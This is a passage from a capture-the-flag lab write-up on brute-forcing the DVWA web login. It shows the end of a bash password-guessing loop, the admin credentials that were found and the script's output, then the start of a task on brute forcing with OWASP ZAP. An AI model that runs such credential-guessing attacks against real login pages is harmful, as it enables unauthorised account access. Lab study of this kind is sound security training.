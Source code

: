 ```bash
      echo -e "\n\n[i] We did it ..."
      echo        "[i] ---------- Username : ${_USER}"
      echo        "[i] ---------- Password : ${_PASS}"
      break 2
    fi

  done < ${USER_LIST}
done < ${PASS_LIST}

## Clean up
rm -f /tmp/dvwa.cookie
```

<p>5.2. What is the admin password?<br>
<code>1qaz@WSX</code></p>

<p>
    
- <code>admin</code> : <code>1qaz@WSX</code></p>

```bash
:~/BruteForceHeroes# ./PoC


[i] We did it ...
[i] ---------- Username : admin
[i] ---------- Password : 1qaz@WSX
```

<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/e4f34daf-e280-4141-b711-b53a0da0f8d2"></p>

<br>
<br>
<h2>Task 6 . Brute forcing - ZAP</h2>
<p>Congratulations! Not only did you brute force the main login for the admin, but you did it while the security was set to "Impossible" - If this is your first time brute forcing be impressed with yourself, time for tea and medals all round.<br>

But we can't rest on our laurels for long. Remember, we were beaten at the first hurdle with a GUI tool. So let's see if we can't redeem ourselves in that area. Download the userlist.txt we've attached, and let's get started. This task will focus on the use of OWASP ZAP, a great tool for web application pen testing; just remember to take the automated warnings and alerts with a pinch of salt. A good pen tester should manually check listed vulnerabilities reported by automated tools, you'll look silly if it comes to report time, and it turns out the tool (and now, by extension, you) were wrong.<br>

But we're not going to go into the different uses of OWASP ZAP here (though I recommend playing around with the tool and checking out the room linked in the introduction). We're focused on how it can help us brute force.<br>

First things first, start the OWASP ZAP application. Depending on the platform you are using, this may be in a number of different places. If you are using the THM AttackBox, this is found at the Applications->Web->OWASP ZAP menu option. The latest versions of Kali have this tool pre-installed, and it is located at Applications->Web Application Analysis->ZAP. Older Kali or other distributions may not have this pre-installed. If not, you can install it from the ZAP Download page.<br>

